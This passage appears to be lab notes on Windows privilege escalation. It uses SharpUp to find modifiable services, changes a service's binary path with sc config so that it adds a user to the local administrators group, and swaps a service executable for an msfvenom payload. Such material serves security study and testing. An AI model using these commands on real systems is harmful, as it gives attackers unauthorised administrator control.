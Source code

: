 Using `SharpUp`, it is possible to determine which services the current user can modify.

```bash
c:\Tools>SharpUp.exe

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Services ===

  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
#### Modifiable Services

Look at the individual services and see which user the service is using when in use:

```bash
c:\Tools>sc qc WindscribeService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : WindscribeService
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Modify the service:

```bash
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

Stop and start the service:
```bash
sc stop WindscribeService
sc start WindscribeService
```
### Modifiable Service Binaries

Use `msfvenom`, replace the `exe` using the same name as the original service. Start and Stop the service.